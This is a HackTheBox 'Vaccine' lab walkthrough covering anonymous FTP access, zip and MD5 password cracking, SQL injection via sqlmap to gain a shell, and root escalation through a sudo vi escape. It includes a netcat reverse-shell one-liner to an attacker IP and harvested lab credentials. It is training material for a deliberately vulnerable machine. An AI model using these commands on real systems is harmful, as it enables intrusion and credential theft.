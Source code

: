 # HACKTHEBOX - Vaccine

## Enumeration
```bash
# Using rustscan to scan 65535 ports:
rustscan -a $IP -g # [21,22,80]

sudo nmap -sV -sC -v -oN nmap.txt -p 21,22,80 $IP
```

**nmap result**:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.198
|      Logged in as ftpuser
..........
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
........
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**Ftp on port 21**: `allowed anonymous login`(any password)
```bash
ftp $IP 21
# username: anonymous
mget * # backup.zip
```

We got `backup.zip` file, but this file is password protected zip archive, let's `brute-force` the password:

```bash
# first thing first, using zip2john convert to hash format that john can understand
locate zip2john
/usr/sbin/zip2john backup.zip > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash 
# password: 741852963        (backup.zip) 
````

Unzip with the password we found, we got `index.php` source code:
```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

This time, we using `crackstation.net` to find the password from md5 hash: 
```
2cb42f8734ea607eefed3b70af13bbd3 --> qwerty789
```

Log in web app with admin password we've found!!

OK, logged in, there're employees list have search function --> sqli --> YES!!

Let use `sqlmap` this time!!
```bash
# Remember to supply cookies, which we've logged in as admin
# --os-shell: Prompt for an interactive operating system shell (sweet!!)
sqlmap -u http://10.129.179.238/dashboard.php?search=hello --os-shell  --cookie='PHPSESSID=tbba04q6c3guadmj9lajpt0qca'
```

We got RCE!! --> Try to get a properly shell, this sqlmap shell keep asking about how to output stuff, so stupid!!

Using python reverse shell -> turn sqlmap shell off --> lost it

Using nc --> We're fine --> OK!!
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.198 8888 >/tmp/f
```
**From /var/lib/postgresql/user.txt**:

**user flag**: `HTB{ec9b13ca4d6229cd5cc1e099809XXXXX}`

With attempt to upgrade to interactive shell but after like 3 minutes, the connection just some how keep lossing --> luckily, check home directory(from `/etc/passwd`) which is `/var/lib/postgresql` have `.ssh` --> get `id_rsa` key

`authorized_keys`: postgres@vaccine --> the `username is postgres` not postgresql --> ssh shell!!
```bash
ssh -i id_rsa postgres@$IP
```
## Privilege Escalation

This user is postgres remember!, to try `sudo -l` we have to supply password so let's check file configuration for `postgresql`:

`/var/www/html/dashboard.php`: 
```php
<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
# ............
?>
```
We got postgres user password: `P@s5w0rd!`

```bash
sudo -l
# User postgres may run the following commands on vaccine:
#    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
We can using `vim` as root with `sudo` command, but it's being restricted by specific path directory so we cannot use `-c` flag to execute command in vim. However, `vim has execute command mode` in it text-edittor no matter what file vim has to open.
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
# :!bash # spawn bash shell!
whoami # root
```

**From /root/root.txt**:

**root flag**: `HTB{dd6e058e814260bc70e9bbdef27XXXXX}`
